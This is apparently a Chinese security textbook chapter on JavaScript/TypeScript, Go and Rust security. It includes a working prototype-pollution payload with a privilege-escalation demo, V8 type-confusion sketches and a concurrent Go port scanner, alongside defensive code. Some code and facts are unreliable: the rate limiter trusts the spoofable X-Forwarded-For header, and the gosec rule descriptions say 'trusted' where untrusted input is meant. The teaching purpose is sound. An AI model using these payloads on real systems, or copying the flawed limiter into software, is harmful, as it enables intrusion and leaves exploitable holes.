


# 第10章 编程语言——JS/TS/Go/Rust/Assembly - 深度拓展

本章是对第10章核心内容的深度拓展，聚焦四个维度：**进阶知识体系**（道法术器贯通）、**前沿技术动态**（行业趋势与新兴攻击面）、**实战实验与工具链**（可落地的动手练习）、**学习资源推荐**（从入门到精通的完整路径）。每种语言的安全特性不是孤立存在的——理解它们的设计哲学、安全边界和攻防博弈，才能在真实安全研究中做出正确判断。

---

## 一、JavaScript/TypeScript 安全深度拓展

### 1.1 原型链污染攻击完全指南

原型链污染（Prototype Pollution）是 JavaScript 独有的安全漏洞类型，源于其基于原型的继承机制。在 2024 年 Snyk 的报告中，原型链污染在 Node.js 生态中的发现频率位列前五，影响了 lodash、jQuery、extend 等数百万周下载量的包。

#### 1.1.1 原型继承机制回顾

JavaScript 中每个对象都有一个内部链接 `[[Prototype]]`，指向另一个对象（即其原型）。当访问对象上不存在的属性时，引擎会沿着原型链向上查找，直到找到该属性或到达 `null`（原型链末端）。

```text
对象实例 → Object.prototype → null
       ↑
自定义构造函数.prototype
```

关键理解点：

- `Object.prototype` 是几乎所有普通对象的最终原型
- 修改 `Object.prototype` 等于影响**所有**普通对象
- `__proto__` 是访问 `[[Prototype]]` 的非标准但广泛支持的访问器

#### 1.1.2 攻击原理与利用链

**基础攻击流程：**

```javascript
// 1. 攻击者控制一个对象的键值对
const userInput = JSON.parse('{"__proto__": {"isAdmin": true}}');

// 2. 通过不安全的合并操作，将__proto__写入目标原型
function deepMerge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            deepMerge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

// 3. 污染发生
deepMerge({}, userInput);

// 4. 所有新创建的对象都会继承被污染的属性
const victim = {};
console.log(victim.isAdmin);  // true — 权限提升成功
```

**为什么 `for...in` 会遍历 `__proto__`？** 当你用 `JSON.parse()` 解析一个包含 `"__proto__"` 键的 JSON 字符串时，生成的对象确实有一个名为 `__proto__` 的**自身属性**（own property）。`for...in` 会遍历所有可枚举属性，包括自身属性和继承属性。当 `deepMerge` 执行 `target[key] = source[key]` 且 key 为 `"__proto__"` 时，赋值操作实际上调用了 `Object.prototype.__proto__` 的 setter，将 `target` 的原型替换为 `source.__proto__` 指向的对象。

**实际利用场景：**

| 场景 | 影响 | 真实 CVE |
|------|------|----------|
| Express.js body解析 | 覆盖 `req.query` 的默认属性 | CVE-2022-21824 |
| 模板引擎 | 绕过条件渲染逻辑 | CVE-2019-10744 (lodash) |
| ORM/ODM 查询 | 绕过 `$where`、`$ne` 等条件 | CVE-2020-7611 |
| 权限检查 | `isAdmin`/`role` 属性覆盖 | 多个私有报告 |
| 对象合并库 | 所有依赖合并逻辑的库 | Snyk 2023 年度报告 |

#### 1.1.3 三种防御策略详解

**策略一：键名过滤（最基础）**

```javascript
const DANGEROUS_KEYS = new Set(['__proto__', 'constructor', 'prototype']);

function safeMerge(target, source) {
    for (let key in source) {
        if (!source.hasOwnProperty(key)) continue;  // 跳过继承属性
        if (DANGEROUS_KEYS.has(key)) continue;       // 跳过危险键
        if (typeof source[key] === 'object' && source[key] !== null) {
            target[key] = safeMerge(target[key] || {}, source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}
```

局限性：无法防御 `constructor.prototype` 路径的间接污染。

**策略二：无原型对象（推荐用于数据容器）**

```javascript
// Object.create(null) 创建的对象没有原型
const dataStore = Object.create(null);

// 即使写入__proto__也只是普通属性
dataStore.__proto__ = { polluted: true };
console.log(Object.getPrototypeOf(dataStore));  // null
console.log(dataStore.__proto__);               // { polluted: true }
```

适用场景：配置对象、查询参数容器、缓存键值对。

**策略三：冻结原型（最严格）**

```javascript
// 冻结Object.prototype，阻止所有原型修改
Object.freeze(Object.prototype);

// 验证
try {
    Object.prototype.isAdmin = true;  // 静默失败（严格模式下抛出TypeError）
} catch (e) {
    console.log('原型已被冻结:', e.message);
}
```

注意事项：某些库（如老版本 jQuery）依赖修改 `Object.prototype`，冻结会导致兼容性问题。建议在应用启动时尽早执行，并进行充分测试。

**策略四：使用 `Object.keys()` 替代 `for...in`（防御性编程）**

```javascript
// Object.keys() 只返回自身可枚举属性，不包含原型链属性
function saferMerge(target, source) {
    for (const key of Object.keys(source)) {
        if (DANGEROUS_KEYS.has(key)) continue;
        // ... 合并逻辑
    }
    return target;
}
```

#### 1.1.4 原型污染检测与审计

**静态分析方法：**

```bash
# 使用 ESLint 的 no-prototype-builtins 规则
# .eslintrc.json
{
    "rules": {
        "no-prototype-builtins": "error",
        "no-proto": "error"
    }
}

# 使用 Semgrep 扫描原型污染模式
# semgrep --config "p/javascript" --config "p/owasp" ./src
```

**动态检测方法：**

```javascript
// 污染检测 Hook — 在测试环境中使用
const originalParse = JSON.parse;
JSON.parse = function(...args) {
    const result = originalParse.apply(this, args);
    if (result && typeof result === 'object') {
        checkForPrototypePollution(result);
    }
    return result;
};

function checkForPrototypePollution(obj, path = '') {
    for (const key of Object.keys(obj)) {
        if (key === '__proto__' || key === 'constructor' || key === 'prototype') {
            console.warn(`[POLLUTION DETECTED] ${path}.${key}`);
        }
        if (typeof obj[key] === 'object' && obj[key] !== null) {
            checkForPrototypePollution(obj[key], `${path}.${key}`);
        }
    }
}
```

### 1.2 JavaScript 引擎漏洞研究

#### 1.2.1 主流 JS 引擎架构对比

| 引擎 | 使用者 | JIT编译器 | 内存管理 | 安全机制 |
|------|--------|-----------|----------|----------|
| V8 | Chrome, Node.js, Deno | TurboFan, Maglev, Sparkplug | Oilpan GC, Orinoco | V8 Sandbox, CFI, Pointer Compression |
| SpiderMonkey | Firefox | Warp (Baseline + IonMonkey) | Nursery/Tenured GC | W^X, Spectre缓解 |
| JavaScriptCore | Safari, Bun | DFG, FTL (B3/Air) | Gigacage, IsoSubspace | PAC (ARM64), Gigacage隔离 |
| ChakraCore | Edge (旧版) | SimpleJIT, FullJIT | Recycler GC | CFG, ACG |

#### 1.2.2 V8 引擎安全机制深度解析

**V8 Sandbox（V8 沙箱）：** 从 Chrome 112 开始引入，是 V8 最重要的安全创新。它将 V8 堆与主进程隔离，即使攻击者获得 V8 堆上的任意读写能力，也无法直接读写主进程内存。

```text
┌──────────────────────────────────┐
│         主进程内存空间              │
│  ┌────────────────────────────┐  │
│  │     V8 Sandbox (隔离堆)     │  │
│  │  ┌──────┐ ┌──────┐        │  │
│  │  │ Heap │ │ Heap │        │  │
│  │  │  A   │ │  B   │        │  │
│  │  └──────┘ └──────┘        │  │
│  └────────────────────────────┘  │
│  [外部对象表]  [后备存储区]        │
└──────────────────────────────────┘
```

**Pointer Compression（指针压缩）：** V8 将 64 位指针压缩为 32 位，所有堆对象都位于一个 4GB 的虚拟地址空间内。这既是性能优化（减少内存占用），也是安全措施（缩小攻击面）。

#### 1.2.3 典型漏洞类型与利用技术

**类型混淆（Type Confusion）—— 最常见的 V8 漏洞：**

类型混淆发生在 JIT 编译器错误地推断了某个变量的类型，生成了不匹配的机器码。攻击者可以利用这种不匹配来读写非预期的内存区域。

```javascript
// 概念示例：TurboFan 类型混淆
// 真实漏洞远比这复杂，此处仅说明原理

function trigger(arr, idx) {
    // TurboFan 可能基于 profile 推断 arr 的元素类型为 PACKED_DOUBLE_ELEMENTS
    // 如果实际传入 PACKED_ELEMENTS 类型的数组，就会产生混淆
    return arr[idx];
}

// 预热：让 TurboFan 认为 arr 总是 double 数组
let doubles = [1.1, 2.2, 3.3];
for (let i = 0; i < 10000; i++) {
    trigger(doubles, 0);
}

// 混淆：传入对象数组
let objects = [{}, {}, {}];
let leaked = trigger(objects, 0);  // 读取对象指针作为 double 值
```

**利用技术演进路线：**

```text
类型混淆 → 任意地址读写 → 绕过ASLR（信息泄露）
    → 构造伪造对象 → 代码执行
    → V8 Sandbox内 → 需要Sandbox逃逸 → 主进程控制
```

**OOB（Out-of-Bounds）读写：**

```javascript
// 概念示例：数组边界检查绕过
function oob_access(arr, idx) {
    // JIT编译器可能在某些条件下移除边界检查
    // 如果 idx 可以超出 arr 的实际长度，就发生 OOB
    return arr[idx];  // 读取相邻内存
}

// 利用 OOB 读取相邻对象的数据
let arr1 = [1.1, 2.2];
let arr2 = [0x41414141, 0x42424242];
// 如果 arr1 和 arr2 在内存中相邻，OOB 可以读取 arr2 的数据
```

#### 1.2.4 漏洞研究工具链

| 工具 | 用途 | 链接 |
|------|------|------|
| d8 | V8 独立调试 shell | V8 源码编译 |
| Turbolizer | 可视化 TurboFan IR | V8 工具链 |
| JSC/SpiderMonkey shells | 独立调试各引擎 | Firefox/WebKit 源码 |
| pwn.js | 浏览器漏洞利用框架 | https://github.com/nicolo-ribaudo/pwn.js |
| v8heap | V8 堆可视化工具 | 安全研究社区 |

### 1.3 TypeScript 类型安全与运行时安全

#### 1.3.1 类型系统的安全边界

TypeScript 的类型系统是**编译时擦除**的——所有类型信息在编译为 JavaScript 后完全消失。这意味着任何来自运行时边界的数据（API 响应、用户输入、文件读取）都处于"类型盲区"。

```typescript
// 编译时安全，运行时脆弱
interface LoginResponse {
    token: string;
    user: {
        id: number;
        role: 'admin' | 'user';
    };
}

// fetch 返回的 JSON 在运行时没有类型保证
async function login(): Promise<LoginResponse> {
    const res = await fetch('/api/login');
    return res.json();  // 类型断言，不进行运行时检查
    // 如果 API 被篡改返回 { token: 123, user: "evil" }，TS 不会报错
}
```

#### 1.3.2 运行时验证方案对比

| 方案 | 验证方式 | 性能 | 生态集成 | TypeScript 支持 |
|------|----------|------|----------|-----------------|
| Zod | Schema 声明式 | 中等 | tRPC, React Hook Form | 类型推断优秀 |
| io-ts | 函数组合式 | 较快 | fp-ts 生态 | 需要手动映射 |
| Yup | Schema 声明式 | 中等 | Formik, React Hook Form | 需要 @types/yup |
| Ajv | JSON Schema | 最快 | OpenAPI 生态 | 需要手动类型映射 |
| Valibot | Schema 声明式 | 极快 | 新兴 | 类型推断优秀 |

**Zod 完整示例：**

```typescript
import { z } from 'zod';

// 定义 Schema
const UserSchema = z.object({
    id: z.number().int().positive(),
    name: z.string().min(1).max(100),
    email: z.string().email(),
    role: z.enum(['admin', 'user', 'moderator']),
    createdAt: z.string().datetime(),
});

// 自动推断 TypeScript 类型（无需手动维护 interface）
type User = z.infer<typeof UserSchema>;
// 等价于：
// type User = {
//     id: number;
//     name: string;
//     email: string;
//     role: 'admin' | 'user' | 'moderator';
//     createdAt: string;
// }

// 安全解析（不会抛出异常）
const result = UserSchema.safeParse(unknownData);
if (result.success) {
    console.log(result.data.email);  // 类型安全
} else {
    console.error(result.error.issues);  // 详细的验证错误
}
```

#### 1.3.3 TypeScript 安全编码模式

**Branded Types —— 防止类型混淆：**

```typescript
// 普通类型别名不提供类型安全
type UserId = number;
type OrderId = number;
function getUser(id: UserId) { /* ... */ }
const orderId: OrderId = 42;
getUser(orderId);  // 编译通过！类型混淆

// 使用 Branded Types 防止混淆
type Brand<T, B extends string> = T & { readonly __brand: B };
type UserId = Brand<number, 'UserId'>;
type OrderId = Brand<number, 'OrderId'>;

function createUserId(id: number): UserId { return id as UserId; }
function createOrderId(id: number): OrderId { return id as OrderId; }
function getUser(id: UserId) { /* ... */ }

const orderId = createOrderId(42);
getUser(orderId);  // 编译错误！类型不兼容
```

**Exhaustive Switch —— 防止遗漏分支：**

```typescript
type Permission = 'read' | 'write' | 'admin';

function checkPermission(perm: Permission): string {
    switch (perm) {
        case 'read': return 'Read access granted';
        case 'write': return 'Write access granted';
        case 'admin': return 'Admin access granted';
        default:
            // 如果新增了 Permission 类型但忘记处理，这里会编译报错
            const _exhaustive: never = perm;
            return _exhaustive;
    }
}
```

### 1.4 前端供应链安全

#### 1.4.1 npm 供应链攻击案例分析

npm 生态系统的供应链攻击频率逐年上升。以下是关键攻击模式：

**Typosquatting（误植域名攻击）：** 攻击者发布与流行包名称相似的恶意包。

| 真实包名 | 恶意仿冒包名 | 攻击方式 |
|----------|-------------|----------|
| `lodash` | `lodas` | 窃取环境变量 |
| `cross-env` | `crossenv` | 后门代码执行 |
| `eslint-scope` | （同名劫持） | 窃取 npm 凭证 |

**依赖混淆（Dependency Confusion）：** 利用包管理器优先安装更高版本号的特性，在公共仓库发布与私有包同名但版本号更高的包。

**防护措施：**

```bash
# 1. 使用 lockfile 锁定依赖版本
npm ci  # 严格按照 package-lock.json 安装

# 2. 审计依赖
npm audit
npm audit --audit-level=high

# 3. 使用 Socket Security 检测供应链风险
npx socket npm ls

# 4. 配置 .npmrc 使用私有 registry 优先
registry=https://npm.internal.company.com/
@company:registry=https://npm.internal.company.com/

# 5. 使用 npm provenance 验证包的构建来源
npm publish --provenance
```

### 1.5 WebAssembly 安全模型

#### 1.5.1 Wasm 沙箱机制

WebAssembly 运行在一个线性内存沙箱中，所有内存访问都受到严格边界检查：

```text
┌─────────────────────────────────────────┐
│              Wasm 线性内存                │
│  ┌──────┐  ┌──────┐  ┌──────┐          │
│  │栈区域│  │堆区域│  │数据段│          │
│  └──────┘  └──────┘  └──────┘          │
│  ← 所有访问都经过 bounds check →         │
└─────────────────────────────────────────┘
│         无法直接访问宿主内存              │
│         通过导入/导出函数交互             │
```

关键安全特性：

- **内存隔离**：Wasm 模块只能访问自己的线性内存，不能直接读写宿主进程内存
- **控制流完整性**：间接调用通过函数表进行，只能调用注册到表中的函数
- **类型安全**：所有函数签名在模块加载时验证
- **栈溢出保护**：调用栈有深度限制

#### 1.5.2 Wasm 安全研究方向



---

## 二、Go 语言安全深度拓展

### 2.1 并发安全与竞态条件

#### 2.1.1 Go 并发模型的安全特性

Go 的 CSP（Communicating Sequential Processes）并发模型通过 goroutine 和 channel 提供了比传统线程模型更安全的并发编程范式。但"更安全"不等于"安全"——不当使用仍会产生严重的并发漏洞。

**竞态条件的本质：** 当两个或多个 goroutine 同时访问共享资源，且至少有一个是写操作，且操作之间没有同步机制时，就发生竞态条件。

```go
package main

import (
    "fmt"
    "sync"
)

// ====== 竞态条件演示 ======

// 场景1：计数器竞态
var counter int

func raceDemo() {
    var wg sync.WaitGroup
    for i := 0; i < 1000; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            counter++  // 非原子操作：读取→增加→写回
            // 两个goroutine可能同时读到相同的值，各自加1后写回
            // 结果丢失了一次增量
        }()
    }
    wg.Wait()
    fmt.Println("Expected: 1000, Got:", counter)  // 结果不确定，通常 < 1000
}

// 场景2：Map 并发读写 panic
func mapRace() {
    m := make(map[string]int)
    var wg sync.WaitGroup
    for i := 0; i < 100; i++ {
        wg.Add(2)
        go func(n int) {
            defer wg.Done()
            m[fmt.Sprintf("key%d", n)] = n  // 写操作
        }(i)
        go func(n int) {
            defer wg.Done()
            _ = m[fmt.Sprintf("key%d", n)]  // 读操作
        }(i)
    }
    wg.Wait()
    // Go runtime 检测到并发读写 map 会直接 panic: concurrent map read and map write
}
```

#### 2.1.2 同步原语选择指南

| 原语 | 适用场景 | 性能特征 | 安全注意事项 |
|------|----------|----------|-------------|
| `sync.Mutex` | 保护共享变量的读写 | 中等，有锁竞争 | 注意死锁；避免在锁内调用可能阻塞的函数 |
| `sync.RWMutex` | 读多写少的场景 | 读操作并发性好 | 写锁会阻塞所有读锁 |
| `sync/atomic` | 简单的原子操作 | 最快，无锁 | 只适用于简单类型；复杂操作仍需锁 |
| `channel` | goroutine 间通信 | 略慢于锁 | 无缓冲 channel 可能导致死锁 |
| `sync.Once` | 单次初始化 | 极快 | 只执行一次，适合懒加载 |
| `sync.Map` | 键稳定的并发 map | 读多写少时优秀 | 不适合写多场景 |

**最佳实践代码：**

```go
package main

import (
    "sync"
    "sync/atomic"
)

// 方案1：sync.Mutex — 适合复杂操作
type SafeCounter struct {
    mu    sync.Mutex
    value int
}

func (c *SafeCounter) Increment() {
    c.mu.Lock()
    defer c.mu.Unlock()
    c.value++
}

func (c *SafeCounter) Value() int {
    c.mu.Lock()
    defer c.mu.Unlock()
    return c.value
}

// 方案2：sync/atomic — 适合简单计数器
type AtomicCounter struct {
    value int64
}

func (c *AtomicCounter) Increment() {
    atomic.AddInt64(&c.value, 1)
}

func (c *AtomicCounter) Value() int64 {
    return atomic.LoadInt64(&c.value)
}

// 方案3：channel — 适合 goroutine 间通信
func counterService() (increment func(), value func() int) {
    incCh := make(chan struct{})
    valCh := make(chan chan int)

    go func() {
        count := 0
        for {
            select {
            case <-incCh:
                count++
            case ch := <-valCh:
                ch <- count
            }
        }
    }()

    return func() { incCh <- struct{}{} },
           func() int { ch := make(chan int); valCh <- ch; return <-ch }
}
```

#### 2.1.3 竞态检测与调试

```bash
# 使用 -race 标志进行竞态检测（开发和测试时必须启用）
go test -race ./...
go build -race -o app ./cmd/app
go run -race main.go

# 竞态检测器输出示例：
# ==================
# WARNING: DATA RACE
# Read at 0x00c0000b4010 by goroutine 8:
#   main.unsafeIncrement()
#       /path/to/main.go:15 +0x38
# Previous write at 0x00c0000b4010 by goroutine 7:
#   main.unsafeIncrement()
#       /path/to/main.go:15 +0x54
# ==================
```

### 2.2 安全工具开发高级模式

#### 2.2.1 并发端口扫描器（完整实现）

```go
package main

import (
    "context"
    "fmt"
    "net"
    "sort"
    "sync"
    "time"
)

type ScanResult struct {
    Port int
    Open bool
    Banner string
}

// PortScanner 支持并发控制、超时、banner抓取的端口扫描器
type PortScanner struct {
    host       string
    timeout    time.Duration
    concurrency int
    bannerGrab bool
}

func NewPortScanner(host string, concurrency int, timeout time.Duration) *PortScanner {
    return &PortScanner{
        host:        host,
        timeout:     timeout,
        concurrency: concurrency,
        bannerGrab:  true,
    }
}

func (ps *PortScanner) Scan(ctx context.Context, ports []int) []ScanResult {
    results := make(chan ScanResult, len(ports))
    sem := make(chan struct{}, ps.concurrency)  // 并发控制信号量
    var wg sync.WaitGroup

    for _, port := range ports {
        wg.Add(1)
        go func(p int) {
            defer wg.Done()
            select {
            case <-ctx.Done():
                return
            case sem <- struct{}{}:  // 获取并发槽位
                defer func() { <-sem }()
            }

            address := fmt.Sprintf("%s:%d", ps.host, p)
            conn, err := net.DialTimeout("tcp", address, ps.timeout)
            if err != nil {
                results <- ScanResult{Port: p, Open: false}
                return
            }
            defer conn.Close()

            result := ScanResult{Port: p, Open: true}

            // Banner 抓取
            if ps.bannerGrab {
                conn.SetReadDeadline(time.Now().Add(ps.timeout))
                buf := make([]byte, 1024)
                n, _ := conn.Read(buf)
                if n > 0 {
                    result.Banner = string(buf[:n])
                }
            }

            results <- result
        }(port)
    }

    // 等待所有 goroutine 完成后关闭 results channel
    go func() {
        wg.Wait()
        close(results)
    }()

    var openPorts []ScanResult
    for r := range results {
        if r.Open {
            openPorts = append(openPorts, r)
        }
    }

    sort.Slice(openPorts, func(i, j int) bool {
        return openPorts[i].Port < openPorts[j].Port
    })
    return openPorts
}
```

#### 2.2.2 HTTP 速率限制器（令牌桶算法）

```go
package main

import (
    "net/http"
    "sync"
    "time"
)

// TokenBucket 令牌桶限流器
type TokenBucket struct {
    mu         sync.Mutex
    tokens     float64
    maxTokens  float64
    refillRate float64  // 每秒补充的令牌数
    lastRefill time.Time
}

func NewTokenBucket(maxTokens, refillRate float64) *TokenBucket {
    return &TokenBucket{
        tokens:     maxTokens,
        maxTokens:  maxTokens,
        refillRate: refillRate,
        lastRefill: time.Now(),
    }
}

func (tb *TokenBucket) Allow() bool {
    tb.mu.Lock()
    defer tb.mu.Unlock()

    now := time.Now()
    elapsed := now.Sub(tb.lastRefill).Seconds()
    tb.tokens = min(tb.maxTokens, tb.tokens+elapsed*tb.refillRate)
    tb.lastRefill = now

    if tb.tokens >= 1 {
        tb.tokens--
        return true
    }
    return false
}

// 每个IP独立限流
type IPRateLimiter struct {
    mu       sync.Mutex
    limiters map[string]*TokenBucket
    rate     float64
    burst    float64
}

func NewIPRateLimiter(rate, burst float64) *IPRateLimiter {
    rl := &IPRateLimiter{
        limiters: make(map[string]*TokenBucket),
        rate:     rate,
        burst:    burst,
    }
    // 定期清理不活跃的限流器
    go rl.cleanup()
    return rl
}

func (rl *IPRateLimiter) GetLimiter(ip string) *TokenBucket {
    rl.mu.Lock()
    defer rl.mu.Unlock()

    if _, exists := rl.limiters[ip]; !exists {
        rl.limiters[ip] = NewTokenBucket(rl.burst, rl.rate)
    }
    return rl.limiters[ip]
}

func (rl *IPRateLimiter) cleanup() {
    ticker := time.NewTicker(5 * time.Minute)
    defer ticker.Stop()
    for range ticker.C {
        rl.mu.Lock()
        for ip, bucket := range rl.limiters {
            if time.Since(bucket.lastRefill) > 10*time.Minute {
                delete(rl.limiters, ip)
            }
        }
        rl.mu.Unlock()
    }
}

// HTTP 中间件
func RateLimitMiddleware(rl *IPRateLimiter) func(http.Handler) http.Handler {
    return func(next http.Handler) http.Handler {
        return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
            ip := r.RemoteAddr
            // 如果有反向代理，使用 X-Forwarded-For 或 X-Real-IP
            if forwarded := r.Header.Get("X-Forwarded-For"); forwarded != "" {
                ip = forwarded
            }

            if !rl.GetLimiter(ip).Allow() {
                http.Error(w, `{"error":"rate limit exceeded"}`, http.StatusTooManyRequests)
                return
            }
            next.ServeHTTP(w, r)
        })
    }
}
```

### 2.3 Go 静态分析与安全审计工具链

| 工具 | 用途 | 安装命令 |
|------|------|----------|
| `go vet` | 内置静态分析器 | 随 Go 安装 |
| `staticcheck` | 高级静态分析 | `go install honnef.co/go/tools/cmd/staticcheck@latest` |
| `gosec` | 安全漏洞扫描 | `go install github.com/securego/gosec/v2/cmd/gosec@latest` |
| `govulncheck` | 依赖漏洞检查 | `go install golang.org/x/vuln/cmd/govulncheck@latest` |
| `nilaway` | 空指针分析 | `go install go.uber.org/nilaway/cmd/nilaway@latest` |

**gosec 常见检测规则：**

```bash
# 扫描项目
gosec ./...

# 常见安全问题：
# G101: 硬编码凭证
# G104: 未处理的错误
# G107: URL 中的可信输入
# G201: SQL 注入（格式化字符串）
# G301: 不安全的目录权限
# G304: 文件路径来自可信输入
# G401: 使用弱加密算法（DES, MD5, SHA1）
```

---

## 三、Rust 安全编程深度拓展

### 3.1 所有权系统与内存安全

#### 3.1.1 所有权三大规则

Rust 的所有权系统通过编译时检查消除了数据竞争、悬垂指针和二次释放等内存安全问题。其核心是三条简单但强大的规则：

```text
规则1：每个值有且只有一个所有者
规则2：同一时刻只能有一个可变引用，或多个不可变引用
规则3：引用必须始终有效（不能有悬垂引用）
```

```rust
fn main() {
    // 规则1：所有权转移（Move）
    let s1 = String::from("hello");
    let s2 = s1;          // s1 的所有权转移给 s2
    // println!("{}", s1); // 编译错误：s1 已失效
    println!("{}", s2);    // OK

    // 规则2：借用规则
    let mut s = String::from("hello");
    let r1 = &s;           // 不可变借用 ✓
    let r2 = &s;           // 多个不可变借用 ✓
    println!("{} {}", r1, r2);
    // r1 和 r2 在此之后不再使用（NLL）

    let r3 = &mut s;       // 可变借用 ✓（此时没有活跃的不可变借用）
    r3.push_str(" world");
    println!("{}", r3);

    // 规则3：生命周期保证引用有效
    // let r;
    // {
    //     let x = 5;
    //     r = &x;  // 编译错误：x 的生命周期不够长
    // }
    // println!("{}", r);
}
```

#### 3.1.2 生命周期（Lifetime）深入理解

生命周期标注不是改变引用的存活时间，而是告诉编译器多个引用之间的关系：

```rust
// 基础：函数签名中的生命周期
fn longest<'a>(x: &'a str, y: &'a str) -> &'a str {
    // 'a 表示返回值的生命周期与 x 和 y 中较短的那个相同
    if x.len() > y.len() { x } else { y }
}

// 结构体中的生命周期
struct Excerpt<'a> {
    text: &'a str,  // Excerpt 不能比它引用的 text 活得更久
}

impl<'a> Excerpt<'a> {
    fn level(&self) -> i32 {
        3  // 不需要生命周期标注，因为只返回 i32
    }

    fn announce_and_return(&self, announcement: &str) -> &str {
        // 返回的 &str 的生命周期与 self 相同
        println!("Attention: {}", announcement);
        self.text
    }
}

// 'static 生命周期：整个程序运行期间有效
let s: &'static str = "I live forever";
```

#### 3.1.3 安全抽象设计模式

```rust
// Newtype 模式：用类型系统防止混淆
struct Meters(f64);
struct Seconds(f64);

impl Meters {
    fn value(&self) -> f64 { self.0 }
}

impl Seconds {
    fn value(&self) -> f64 { self.0 }
}

fn speed(distance: Meters, time: Seconds) -> f64 {
    distance.value() / time.value()
}

// let s = speed(Seconds(10.0), Meters(100.0));  // 编译错误！参数顺序反了

// Builder 模式：构建复杂的安全对象
struct ServerConfig {
    host: String,
    port: u16,
    tls: bool,
    max_connections: usize,
}

struct ServerConfigBuilder {
    host: String,
    port: u16,
    tls: bool,
    max_connections: usize,
}

impl ServerConfigBuilder {
    fn new() -> Self {
        Self {
            host: "127.0.0.1".to_string(),
            port: 8080,
            tls: false,
            max_connections: 100,
        }
    }

    fn host(mut self, host: &str) -> Self {
        self.host = host.to_string();
        self
    }

    fn port(mut self, port: u16) -> Self {
        self.port = port;
        self
    }

    fn tls(mut self, tls: bool) -> Self {
        self.tls = tls;
        self
    }

    fn max_connections(mut self, max: usize) -> Self {
        self.max_connections = max;
        self
    }

    fn build(self) -> ServerConfig {
        ServerConfig {
            host: self.host,
            port: self.port,
            tls: self.tls,
            max_connections: self.max_connections,
        }
    }
}

// 使用
let config = ServerConfigBuilder::new()
    .host("0.0.0.0")
    .port(443)
    .tls(true)
    .max_connections(10000)
    .build();
```

### 3.2 Unsafe Rust 与安全边界

#### 3.2.1 Unsafe 能做的五件事

`unsafe` 关键字不是"关闭所有安全检查"——它只解锁五种特定能力：

```rust
fn unsafe_examples() {
    let mut num = 42;

    unsafe {
        // 1. 解引用裸指针
        let r1 = &num as *const i32;
        let r2 = &mut num as *mut i32;
        println!("r1: {}, r2: {}", *r1, *r2);

        // 2. 调用 unsafe 函数
        // dangerous_function();

        // 3. 访问或修改可变静态变量
        // COUNTER += 1;

        // 4. 实现 unsafe trait
        // ...

        // 5. 访问 union 的字段
        // ...
    }
}
```

#### 3.2.2 Rust 中的安全漏洞类型

虽然 Rust 的安全保证远超 C/C++，但仍存在以下安全风险：

```rust
// 1. unsafe 中的未定义行为
fn ub_example() {
    unsafe {
        let ptr = 0x12345 as *const i32;  // 无效地址
        // println!("{}", *ptr);  // 未定义行为！
    }
}

// 2. 整数溢出
fn overflow_example() {
    let x: u8 = 255;
    // debug模式 panic，release模式静默 wrap
    let y = x.wrapping_add(1);    // 0
    let y = x.checked_add(1);     // None
    let y = x.saturating_add(1);  // 255
}

// 3. 逻辑漏洞 — Rust 无法防止
fn logic_vuln(password: &str) -> bool {
    password == "admin123"  // 硬编码凭证
}

// 4. 死锁
use std::sync::Mutex;
fn deadlock() {
    let a = Mutex::new(1);
    let b = Mutex::new(2);

    let _ra = a.lock().unwrap();
    let _rb = b.lock().unwrap();  // 如果另一个线程以相反顺序获取锁，就会死锁
}

// 5. 内存泄漏（Rust 不保证 Drop 运行）
fn leak_example() {
    let cycles = std::rc::Rc::new(std::cell::RefCell::new(None));
    let cloned = cycles.clone();
    *cycles.borrow_mut() = Some(cloned);  // 循环引用，内存泄漏
}
```

#### 3.2.3 安全审计工具

```bash
# cargo-audit: 检查依赖中的已知安全漏洞
cargo install cargo-audit
cargo audit

# cargo-fuzz: 基于 libFuzzer 的模糊测试
